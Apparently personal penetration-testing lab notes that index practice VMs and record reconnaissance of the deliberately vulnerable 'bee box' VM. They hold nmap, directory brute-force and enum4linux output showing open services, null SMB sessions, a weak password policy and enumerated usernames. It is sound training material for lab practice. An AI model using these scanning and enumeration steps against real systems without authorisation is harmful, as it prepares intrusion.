









Index
- BasicPenTestingBox
- BasicPenTestingBox2
- bee box
- BossPlayer
- CyberChallenge19
- Dawn
- DC-1
- DC-2
- DC-3
- DerpNStik
- EVM
- Fowsniff
- Gemini Inc 1
- JIS_CTF
- mullidae
- PumpkinFestival
- PumpkinGarden
- PumpkinRaising
- QuaoarCTFHackfest2016
- Rickdiculously Easy
- silky02
- silky1
- Typhoon
- VMS to try
- xss challenges
- Blue
- mr robot
- Unfinished VMS
- CasinoRoyale
- WinterMute Straylight
- connect the dots (unfinished)
- arsenal
- heist
- MyHouse Box
- Sputnik
- Node
- HackInOs
- Seattle
- DC416-Galahad
- Not a Box
- ICE
bee box



root@kali:~# nmap -A -p- 169.254.4.174
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-12 18:43 EST
Nmap scan report for 169.254.4.174
Host is up (0.00089s latency).
Not shown: 65516 closed ports
PORT STATE SERVICE VERSION
21/tcp open ftp?
22/tcp open ssh OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey:
| 1024 45:a4:66:ec:3a:ba:97:f8:3e:1a:ba:1c:24:68:22:e8 (DSA)
|_ 2048 63:e7:c5:d1:8d:8a:94:02:36:6a:d7:d2:75:e9:8b:ce (RSA)
25/tcp open smtp Postfix smtpd
|_smtp-commands: bee-box, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
80/tcp open http Apache httpd 2.2.8 ((Ubuntu) DAV/2 mod_fastcgi/2.4.6 PHP/5.2.4-2ubuntu5 with Suhosin-Patch mod_ssl/2.2.8 OpenSSL/0.9.8g)
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Apache/2.2.8 (Ubuntu) DAV/2 mod_fastcgi/2.4.6 PHP/5.2.4-2ubuntu5 with Suhosin-Patch mod_ssl/2.2.8 OpenSSL/0.9.8g
|_http-title: Site doesn't have a title (text/html).
139/tcp open netbios-ssn Samba smbd 3.X - 4.X (workgroup: ITSECGAMES)
443/tcp open ssl/https?
|_ssl-date: 2019-11-12T23:47:22+00:00; 0s from scanner time.
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_DES_192_EDE3_CBC_WITH_MD5
| SSL2_RC4_128_EXPORT40_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
|_ SSL2_RC4_128_WITH_MD5
445/tcp open netbios-ssn Samba smbd 3.0.28a (workgroup: ITSECGAMES)
512/tcp open exec?
513/tcp open login?
514/tcp open shell?
666/tcp open doom?
| fingerprint-strings:
| GenericLines, beast2:
| *** bWAPP Movie Service ***
|_ Matching movies: 0
3306/tcp open mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
3632/tcp open distccd distccd v1 ((GNU) 4.2.3 (Ubuntu 4.2.3-2ubuntu7))
5901/tcp open vnc VNC (protocol 3.8)
|_ssl-cert: ERROR: Script execution failed (use -d to debug)
|_ssl-date: ERROR: Script execution failed (use -d to debug)
|_sslv2: ERROR: Script execution failed (use -d to debug)
|_tls-nextprotoneg: ERROR: Script execution failed (use -d to debug)
|_vnc-info: ERROR: Script execution failed (use -d to debug)
6001/tcp open X11 (access denied)
8080/tcp open http nginx 1.4.0
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.4.0
|_http-title: Site doesn't have a title (text/html).
8443/tcp open ssl/https-alt nginx/1.4.0
|_http-server-header: nginx/1.4.0
|_http-title: 400 The plain HTTP request was sent to HTTPS port
|_ssl-date: 2019-11-12T23:47:22+00:00; 0s from scanner time.
| tls-nextprotoneg:
|_ http/1.1
9080/tcp open http lighttpd 1.4.19
|_http-server-header: lighttpd/1.4.19
|_http-title: Site doesn't have a title (text/html).
9443/tcp open ssl/tungsten-https?
|_ssl-date: 2019-11-12T23:47:22+00:00; 0s from scanner time.
| sslv2:
| SSLv2 supported
| ciphers:
| SSL2_DES_192_EDE3_CBC_WITH_MD5
| SSL2_RC4_128_EXPORT40_WITH_MD5
| SSL2_DES_64_CBC_WITH_MD5
| SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
| SSL2_RC2_128_CBC_WITH_MD5
|_ SSL2_RC4_128_WITH_MD5
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port666-TCP:V=7.80%I=7%D=11/12%Time=5DCB43A9%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,400,"\*\*\*\x20bWAPP\x20Movie\x20Service\x20\*\*\*\nMatching
SF:\x20movies:\x200\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0")%r(beast2,400,"\*\*\*\x20bWAPP\x20Movie\x20Servic
SF:e\x20\*\*\*\nMatching\x20movies:\x200\n\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0
SF:\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\
SF:0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0\0");
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=11/12%OT=21%CT=1%CU=38188%PV=Y%DS=1%DC=T%G=Y%TM=5DCB45
OS:4D%P=x86_64-pc-linux-gnu)SEQ(SP=C2%GCD=1%ISR=CA%TI=Z%CI=Z%II=I%TS=8)OPS(
OS:O1=M5B4ST11NW6%O2=M5B4ST11NW6%O3=M5B4NNT11NW6%O4=M5B4ST11NW6%O5=M5B4ST11
OS:NW6%O6=M5B4ST11)WIN(W1=16A0%W2=16A0%W3=16A0%W4=16A0%W5=16A0%W6=16A0)ECN(
OS:R=Y%DF=Y%T=40%W=16D0%O=M5B4NNSNW6%CC=N%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=Y%DF=N%T=FC%W=80%S=Z%A=S%F=AR%O=%RD=0%Q=)T3(R=Y%DF=Y%T=40%
OS:W=16A0%S=O%A=S+%F=AS%O=M5B4ST11NW6%RD=0%Q=)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=40%CD=S)
Network Distance: 1 hop
Service Info: Host: bee-box; OSs: Linux, Unix; CPE: cpe:/o:linux:linux_kernel
Host script results:
|_clock-skew: mean: -11m59s, deviation: 26m49s, median: 0s
|_nbstat: NetBIOS name: BEE-BOX, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
| OS: Unix (Samba 3.0.28a)
| Computer name: bee-box
| NetBIOS computer name:
| Domain name:
| FQDN: bee-box
|_ System time: 2019-11-13T00:46:19+01:00
| smb-security-mode:
| account_used: <blank>
| authentication_level: user
| challenge_response: supported
|_ message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
TRACEROUTE (using port 1720/tcp)
HOP RTT ADDRESS
1 0.87 ms 169.254.4.174
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 431.57 seconds
root@kali:~#


GENERATED WORDS: 4612
---- Scanning URL: http://169.254.4.174/ ----
+ http://169.254.4.174/crossdomain (CODE:200|SIZE:200)
+ http://169.254.4.174/crossdomain.xml (CODE:200|SIZE:200)
==> DIRECTORY: http://169.254.4.174/drupal/
==> DIRECTORY: http://169.254.4.174/evil/
+ http://169.254.4.174/index (CODE:200|SIZE:45)
+ http://169.254.4.174/index.html (CODE:200|SIZE:588)
==> DIRECTORY: http://169.254.4.174/phpmyadmin/
+ http://169.254.4.174/README (CODE:200|SIZE:2491)
+ http://169.254.4.174/server-status (CODE:200|SIZE:7226)
==> DIRECTORY: http://169.254.4.174/webdav/
---- Entering directory: http://169.254.4.174/drupal/ ----
+ http://169.254.4.174/drupal/cron (CODE:403|SIZE:7475)
==> DIRECTORY: http://169.254.4.174/drupal/includes/
+ http://169.254.4.174/drupal/index.php (CODE:200|SIZE:7799)
+ http://169.254.4.174/drupal/install (CODE:200|SIZE:3435)
+ http://169.254.4.174/drupal/LICENSE (CODE:200|SIZE:18092)
==> DIRECTORY: http://169.254.4.174/drupal/misc/
==> DIRECTORY: http://169.254.4.174/drupal/modules/
==> DIRECTORY: http://169.254.4.174/drupal/profiles/
+ http://169.254.4.174/drupal/README (CODE:200|SIZE:5382)
+ http://169.254.4.174/drupal/robots (CODE:200|SIZE:1550)
+ http://169.254.4.174/drupal/robots.txt (CODE:200|SIZE:1550)
==> DIRECTORY: http://169.254.4.174/drupal/scripts/
==> DIRECTORY: http://169.254.4.174/drupal/sites/
==> DIRECTORY: http://169.254.4.174/drupal/themes/
+ http://169.254.4.174/drupal/update (CODE:403|SIZE:4304)
+ http://169.254.4.174/drupal/web.config (CODE:200|SIZE:2178)
+ http://169.254.4.174/drupal/xmlrpc (CODE:200|SIZE:42)
+ http://169.254.4.174/drupal/xmlrpc.php (CODE:200|SIZE:42)
---- Entering directory: http://169.254.4.174/evil/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.
(Use mode '-w' if you want to scan it anyway)
---- Entering directory: http://169.254.4.174/phpmyadmin/ ----
+ http://169.254.4.174/phpmyadmin/favicon.ico (CODE:200|SIZE:18902)
+ http://169.254.4.174/phpmyadmin/index.php (CODE:200|SIZE:8132)
==> DIRECTORY: http://169.254.4.174/phpmyadmin/js/
==> DIRECTORY: http://169.254.4.174/phpmyadmin/lang/
==> DIRECTORY: http://169.254.4.174/phpmyadmin/libraries/
+ http://169.254.4.174/phpmyadmin/phpinfo.php (CODE:200|SIZE:0)
==> DIRECTORY: http://169.254.4.174/phpmyadmin/scripts/
==> DIRECTORY: http://169.254.4.174/phpmyadmin/themes/
ENUM4LINUX:
root@kali:~# enum4linux bee-box
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Tue Nov 12 19:10:08 2019
==========================
| Target Information |
==========================
Target ........... bee-box
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none
===============================================
| Enumerating Workgroup/Domain on bee-box |
===============================================
[+] Got domain/workgroup name: ITSECGAMES
=======================================
| Nbtstat Information for bee-box |
=======================================
Looking up status of 169.254.4.174
BEE-BOX <00> - B <ACTIVE> Workstation Service
BEE-BOX <03> - B <ACTIVE> Messenger Service
BEE-BOX <20> - B <ACTIVE> File Server Service
..__MSBROWSE__. <01> - <GROUP> B <ACTIVE> Master Browser
ITSECGAMES <1d> - B <ACTIVE> Master Browser
ITSECGAMES <1e> - <GROUP> B <ACTIVE> Browser Service Elections
ITSECGAMES <00> - <GROUP> B <ACTIVE> Domain/Workgroup Name
MAC Address = 00-00-00-00-00-00
================================
| Session Check on bee-box |
================================
[+] Server bee-box allows sessions using username '', password ''
======================================
| Getting domain SID for bee-box |
======================================
Domain Name: ITSECGAMES
Domain Sid: (NULL SID)
[+] Can't determine if host is part of domain or part of a workgroup
=================================
| OS information on bee-box |
=================================
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
[+] Got OS info for bee-box from smbclient:
[+] Got OS info for bee-box from srvinfo:
BEE-BOX Wk Sv PrQ Unx NT SNT bee-box server (Samba 3.0.28a)
platform_id : 500
os version : 4.9
server type : 0x809a03
========================
| Users on bee-box |
========================
index: 0x1 RID: 0x1f5 acb: 0x00000010 Account: nobody Name: nobody Desc: (null)
index: 0x2 RID: 0xbb8 acb: 0x00000010 Account: bee Name: bee,,, Desc: (null)
user:[nobody] rid:[0x1f5]
user:[bee] rid:[0xbb8]
====================================
| Share Enumeration on bee-box |
====================================
Sharename Type Comment
--------- ---- -------
IPC$ IPC IPC Service (bee-box server (Samba 3.0.28a))
opt Disk
tmp Disk oh noes!
print$ Disk Printer Drivers
Xerox_Phaser_8500DN_PS:7 Printer Xerox Phaser 8500DN PS
Snagit_9:6 Printer Snagit 9
Send_To_OneNote_2010:8 Printer Send To OneNote 2010
PDF Printer PDF
Microsoft_XPS_Document_Writer:1 Printer Microsoft XPS Document Writer
HP_Officejet_6500_E710a-f_(Network):5 Printer HP Officejet 6500 E710a-f (Network)
Fax_-_HP_Officejet_6500_E710a-f_(Network):4 Printer Fax - HP Officejet 6500 E710a-f (Network)
Fax:2 Printer Fax
CutePDF_Writer:3 Printer CutePDF Writer
Reconnecting with SMB1 for workgroup listing.
Server Comment
--------- -------
Workgroup Master
--------- -------
ITSECGAMES BEE-BOX
[+] Attempting to map shares on bee-box
//bee-box/IPC$ [E] Can't understand response:
NT_STATUS_NETWORK_ACCESS_DENIED listing \*
//bee-box/opt Mapping: DENIED, Listing: N/A
//bee-box/tmp Mapping: OK, Listing: OK
//bee-box/print$ Mapping: DENIED, Listing: N/A
//bee-box/Xerox_Phaser_8500DN_PS:7 Mapping: DENIED, Listing: N/A
//bee-box/Snagit_9:6 Mapping: DENIED, Listing: N/A
//bee-box/Send_To_OneNote_2010:8 Mapping: DENIED, Listing: N/A
//bee-box/PDF Mapping: DENIED, Listing: N/A
//bee-box/Microsoft_XPS_Document_Writer:1 Mapping: DENIED, Listing: N/A
//bee-box/HP_Officejet_6500_E710a-f_(Network):5 Mapping: DENIED, Listing: N/A
//bee-box/Fax_-_HP_Officejet_6500_E710a-f_(Network):4 Mapping: DENIED, Listing: N/A
//bee-box/Fax:2 Mapping: DENIED, Listing: N/A
//bee-box/CutePDF_Writer:3 Mapping: DENIED, Listing: N/A
===============================================
| Password Policy Information for bee-box |
===============================================
[+] Attaching to bee-box using a NULL share
[+] Trying protocol 445/SMB...
[+] Found domain(s):
[+] BEE-BOX
[+] Builtin
[+] Password Info for Domain: BEE-BOX
[+] Minimum password length: 5
[+] Password history length: None
[+] Maximum password age: Not Set
[+] Password Complexity Flags: 000000
[+] Domain Refuse Password Change: 0
[+] Domain Password Store Cleartext: 0
[+] Domain Password Lockout Admins: 0
[+] Domain Password No Clear Change: 0
[+] Domain Password No Anon Change: 0
[+] Domain Password Complex: 0
[+] Minimum password age: None
[+] Reset Account Lockout Counter: 30 minutes
[+] Locked Account Duration: 30 minutes
[+] Account Lockout Threshold: None
[+] Forced Log off Time: Not Set
[+] Retieved partial password policy with rpcclient:
Password Complexity: Disabled
Minimum Password Length: 0
=========================
| Groups on bee-box |
=========================
[+] Getting builtin groups:
[+] Getting builtin group memberships:
[+] Getting local groups:
[+] Getting local group memberships:
[+] Getting domain groups:
[+] Getting domain group memberships:
==================================================================
| Users on bee-box via RID cycling (RIDS: 500-550,1000-1050) |
==================================================================
[I] Found new SID: S-1-22-1
[I] Found new SID: S-1-5-21-3867980309-461500712-2103401367
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-21-3867980309-461500712-2103401367 and logon username '', password ''
S-1-5-21-3867980309-461500712-2103401367-501 BEE-BOX\nobody (Local User)
S-1-5-21-3867980309-461500712-2103401367-513 BEE-BOX\None (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\bee (Local User)
S-1-22-1-1001 Unix User\neo (Local User)
S-1-22-1-1002 Unix User\alice (Local User)
S-1-22-1-1003 Unix User\thor (Local User)
S-1-22-1-1004 Unix User\wolverine (Local User)
S-1-22-1-1005 Unix User\johnny (Local User)
S-1-22-1-1006 Unix User\selene (Local User)
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
========================================
| Getting printer info for bee-box |
========================================
flags:[0x800000]
name:[\\bee-box\Xerox_Phaser_8500DN_PS:7]
